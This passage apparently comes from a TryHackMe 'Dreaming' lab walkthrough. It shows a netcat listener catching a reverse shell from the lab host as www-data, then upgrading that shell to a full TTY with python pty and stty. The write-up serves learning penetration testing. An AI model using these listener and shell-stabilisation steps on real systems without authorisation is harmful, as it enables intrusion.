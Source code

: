 ![](/assets/img/posts/walthrough/tryhackme/2024-10-27-dreaming/shell.png)
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Dreaming/Scans/Web]
└─$ nc -lvnp 1234                         
listening on [any] 1234 ...
```

After starting the listener, we can run the reverse shell command in the web shell.
![](/assets/img/posts/walthrough/tryhackme/2024-10-27-dreaming/reverseshell.png)

When we return to our listener, we will notice a reverse connection from the target.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Dreaming/Scans/Web]
└─$ nc -lvnp 1234                         
listening on [any] 1234 ...
connect to [10.21.68.180] from (UNKNOWN) [10.10.162.34] 55054
bash: cannot set terminal process group (810): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dreaming:/var$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dreaming:/var$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/…/Challenge/Dreaming/Scans/Web]
└─$ stty raw -echo;fg     
[1]  + continued  nc -lvnp 1234
                               export=TERM=xterm
www-data@dreaming:/var$ 
```
